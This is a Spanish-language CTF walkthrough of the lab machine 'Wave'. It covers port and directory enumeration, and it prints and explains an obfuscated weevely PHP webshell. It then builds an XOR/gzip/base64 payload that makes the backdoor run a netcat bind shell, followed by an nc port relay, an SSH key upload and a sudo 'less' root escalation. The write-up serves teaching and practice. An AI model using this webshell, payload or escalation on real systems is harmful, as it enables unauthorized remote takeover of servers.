

**Autor**: Sml  \\
**Dificultad**: Medio


## Enumeración

Realizo una enumeración simple con **nmap** para ver que puertos hay abiertos.

```
h3rshel@kali:~/Desktop$ sudo nmap -p- 192.168.1.120   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 15:46 CEST
Nmap scan report for 192.168.1.120
Host is up (0.00016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### 80 (http)

Al hacer una petición con **curl** solo se muestra el nombre de la máquina.

```
h3rshel@kali:~/Desktop$ curl http://192.168.1.120   
<h1> WAVE </h1>

<!-- wAvE -->
```

Uso **gobuster** para continuar con la enumeración.

```
h3rshel@kali:~/Desktop$ gobuster dir -u "http://192.168.1.120/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html,php,txt
[...]
/index.html           (Status: 200) [Size: 31]
/backup               (Status: 301) [Size: 169] [--> http://192.168.1.120/backup/]
/robots.txt           (Status: 200) [Size: 18]
/phptest.php          (Status: 200) [Size: 11]
```

Encuentro un subdirectorio y varios ficheros.

```
h3rshel@kali:~/Desktop$ curl http://192.168.1.120/robots.txt
Disallow: /backup
```

"Robots.txt" no dice nada nuevo.

Al navegar a "/backup" me encuentro los siguientes archivos.


Es interesante que en la ruta raiz, he visto previamente "phptest.php" y en "/backup" existe un archivo "phptest.bck". ¿Habrá mas archivos que se repitan?.

Par buscar más archivos, creo un fichero que contiene los nombres de todos lo archivos en "/backup" y otro con distintas extensiones para archivos php.

```
h3rshel@kali:~/Downloads$ cat extensions-php 
php
phtml
php3
php4
php5
php7
phps
php-s
pht
phar
h3rshel@kali:~/Downloads$ cat file-names    
index
log
phptest
robots
weevely
```

Ahora con **ffuf** pruebo todas las posibles combinaciones.

```
h3rshel@kali:~/Downloads$ ffuf -w file-names:FILE -w extensions-php:EXT -u http://192.168.1.120/FILE.EXT

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
[...]
[Status: 200, Size: 11, Words: 2, Lines: 1, Duration: 4ms]
    * EXT: php
    * FILE: phptest

[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
    * EXT: php7
    * FILE: weevely

:: Progress: [50/50] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

Bingo!! Existe el fichero **/weevely.php7**.

### Weevely

Para entender que hace "weevely.php7", me descargo "weevely.bck" y con el comando **file** obtengo información.

```
h3rshel@kali:~/Downloads$ file weevely.bck 
weevely.bck: PHP phar archive with SHA1 signature
```

Mediante el siguiente comando se puede extraer el archivo PHAR.

```
h3rshel@kali:~/Downloads$ php -r '$phar = new Phar("weevely.phar"); $phar->extractTo("./directory");'
```

Navego al directorio "./directory" que es donde encuentro el script en php.

```
h3rshel@kali:~/Downloads/directory$ cat x          
<?php eval('$k="3ddf0d5c";$kh="b6e7a529b6c2";$kf="d598a771749b";$p="afnqDsRcBpVmU71y";

function x($t,$k){
$c=strlen($k);$l=strlen($t);$o="";
for($i=0;$i<$l;){
for($j=0;($j<$c&&$i<$l);$j++,$i++)
{
$o.=$t[$i]^$k[$j];
}
}
return $o;
}
if (@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1) {
@ob_start();
@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
$o=@ob_get_contents();
@ob_end_clean();
$r=@base64_encode(@x(@gzcompress($o),$k));
print("$p$kh$r$kf");
}');
```

Dándole un lavado de cara para verlo más bonito queda de la siguiente manera.

```php
<?php
// Define algunas variables
$clave = "3ddf0d5c";
$claveInicio = "b6e7a529b6c2";
$claveFinal = "d598a771749b";
$prefijo = "afnqDsRcBpVmU71y";

// Define una función llamada "descifrar"
function descifrar($texto, $clave) {
    $longitudClave = strlen($clave);
    $longitudTexto = strlen($texto);
    $resultado = "";

    for ($i = 0; $i < $longitudTexto;) {
        for ($j = 0; ($j < $longitudClave && $i < $longitudTexto); $j++, $i++) {
            $resultado .= $texto[$i] ^ $clave[$j];
        }
    }

    return $resultado;
}

// Verifica si ciertos datos en el cuerpo de la solicitud coinciden con la clave
if (@preg_match("/$claveInicio(.+)$claveFinal/", @file_get_contents("php://input"), $coincidencias) == 1) {
    @ob_start();
    @eval(@gzuncompress(@descifrar(@base64_decode($coincidencias[1]), $clave)));
    $resultadoDescifrado = @ob_get_contents();
    @ob_end_clean();
    $resultadoCodificado = @base64_encode(@descifrar(@gzcompress($resultadoDescifrado), $clave));
    print("$prefijo$claveInicio$resultadoCodificado$claveFinal");
}
?>
```

### Explicación

1. Define algunas variables, incluyendo una clave de cifrado ($clave), claves de inicio y final ($claveInicio y $claveFinal), y una cadena de prefijo ($prefijo).
2. Define una función llamada "descifrar", que toma un texto y una clave como argumentos y realiza una operación XOR entre los caracteres del texto y los caracteres de la clave para descifrar el texto.
3. Verifica si ciertos datos en el cuerpo de la solicitud coinciden con la clave utilizando una expresión regular. Esto se hace llamando a preg_match con el contenido de la solicitud (php://input) y las claves de inicio y final.
4. Si la expresión regular coincide (preg_match devuelve 1), realiza las siguientes acciones en un búfer de salida (@ob_start()):
    - Descodifica en base64 el contenido coincidente.
    - Descifra el contenido decodificado utilizando la función "descifrar".
    - Descomprime el contenido descifrado utilizando gzuncompress.
    - Almacena el resultado descomprimido en $resultadoDescifrado.
    - Limpia el búfer de salida (@ob_end_clean()).

Luego, vuelve a cifrar el resultado descomprimido utilizando gzcompress y lo codifica en base64 nuevamente utilizando base64_encode.

Finalmente, imprime una cadena que consta del prefijo, la clave de inicio, el resultado codificado y la clave final.

## Explotación

Para explotar este script, tengo que conseguir controlar lo que llega a la función **eval()**. Para ello hago lo siguiente:

### Expresión regular

La información pasa al script a través de "php://input" que viene siendo el cuerpo de una petición **POST**.

Como se puede ver en el siguiente comando, tiene que comenzar por $claveInicio, incluir algún texto y terminar con $claveFinal.

```
h3rshel@kali:~/Desktop$ curl -X POST 192.168.1.120/weevely.php7 -d "b6e7a529b6c2[RANDOM TEXT]d598a771749b"
afnqDsRcBpVmU71yb6e7a529b6c2S/hnZjBkNWI=d598a771749b
```

Hago un script que añada el prefijo y el sufijo al texto que se pase como argumento.

```
h3rshel@kali:~/Desktop$ cat send_script.sh 
#!/bin/bash
curl -X POST http://192.168.1.120/weevely.php7 -d "b6e7a529b6c2$1d598a771749b"
```

En el **weevely.php7** original se llevan a cabo 3 procesos: compresión (gzip), encriptación (xor) y codificación (base64).

Creo este script php que haga justo lo mismo pero en orden inverso.

wave.php:
```php
<?php
$clave1 = "3ddf0d5c";          // Clave de cifrado 1

function descifrar($texto, $clave) {
    $longitudClave = strlen($clave);
    $longitudTexto = strlen($texto);
    $resultado = "";                

    for ($i = 0; $i < $longitudTexto;) {
        for ($j = 0; ($j < $longitudClave && $i < $longitudTexto); $j++, $i++) {
            $resultado .= $texto[$i] ^ $clave[$j];
        }
    }

    return $resultado;
}

//bind shell
print(@base64_encode(@descifrar(@gzcompress('system("nc -lvp 1234 -e /bin/sh");'), $clave1)));
?>
```
Al ejecutarlo, obtengo el texto que tengo que envíar a "192.168.1.120/weevely.php7" para que se ejecute una **bind shell**.

```
h3rshel@kali:~/Desktop/test$ php wave.php 
S/hPyBxKfK7mNK4tZrT4Shg0VFICUmSzfjG0Kfqo5kz9NLbSNmSLTjlw
```

Ahora todo lo que tengo que hacer es enviarlo y conectarme a la shell.

```
h3rshel@kali:~/Desktop$ ./send_script.sh S/hPyBxKfK7mNK4tZrT4Shg0VFICUmSzfjG0Kfqo5kz9NLbSNmSLTjlw
h3rshel@kali:~/Desktop$ nc 192.168.1.120 1234
www-data@wave:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Y ya estoy dentro :)

## Escalado de privilegios

Haciendo una enumeración rápida, existen 2 usuarios.

```
www-data@wave:~/html$ ls /home
angie  carla
```

Como se puede ver, hay un servicio solo accesible desde **localhost** en el puerto **3923**.

```
www-data@wave:~/html$ ss -tulnp
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess                        
udp   UNCONN 0      0            0.0.0.0:68        0.0.0.0:*                                  
tcp   LISTEN 0      511          0.0.0.0:80        0.0.0.0:*    users:(("nginx",pid=471,fd=5))
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*                                  
tcp   LISTEN 0      1024       127.0.0.1:3923      0.0.0.0:*                                  
tcp   LISTEN 0      511             [::]:80           [::]:*    users:(("nginx",pid=471,fd=6))
tcp   LISTEN 0      128             [::]:22           [::]:* 
```

Realizo una redirección de puertos con **nc**.

```
www-data@wave:~/html$ nc -l -k -p 8001 -c "nc 127.0.0.1 3923"
```

Navego al puerto ahora público y me encuentro con que puedo subir archivos e incluso carpetas enteras.



Creo en mi escritorio una carpeta ".ssh" que contenga una clave pública y otra privada.

```
h3rshel@kali:~/Desktop/.ssh$ ls -la
total 16
drwxr-xr-x 2 h3rshel h3rshel 4096 Sep 10 19:40 .
drwxr-xr-x 7 h3rshel h3rshel 4096 Sep 10 20:00 ..
-rw-r--r-- 1 h3rshel h3rshel  566 Sep 10 19:40 authorized_keys
-rw------- 1 h3rshel h3rshel 2602 Sep 10 19:40 id_rsa
```
Después subo la carpeta completa al servidor.


Ahora intento conectarme como uno de los usuarios encontrados al principio mediante ssh.

```
h3rshel@kali:~/Desktop/.ssh$ ssh angie@192.168.1.120 -i id_rsa
Last login: Tue Sep  5 11:14:50 2023 from 192.168.0.100
angie@wave:~$ :)
```

Una vez estoy dentro como el usuario "angie", al comprobar los permisos de **sudo** veo que puedo ejecutar **less**.

```
angie@wave:~$ sudo -l
Matching Defaults entries for angie on wave:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User angie may run the following commands on wave:
    (ALL) NOPASSWD: /usr/bin/less -F /opt/secret.txt
```

En [GTFObins](https://gtfobins.github.io/gtfobins/less/#sudo) se puede ver como escalar privilegios.

Para poder hacer esto, es necesario que la ventana de la terminal sea muy muy pequeña debido a que el archivo contiene poco texto.


No se ve muy bien pero no es dificil de hacer.

```
angie@wave:~$ sudo /usr/bin/less -F /opt/secret.txt
root@wave:/home/angie# id
uid=0(root) gid=0(root) grupos=0(root)
root@wave:/home/angie# :)
```

Y con esto ya está resuelta.

Muchas gracias a **Sml** por esta máquina.

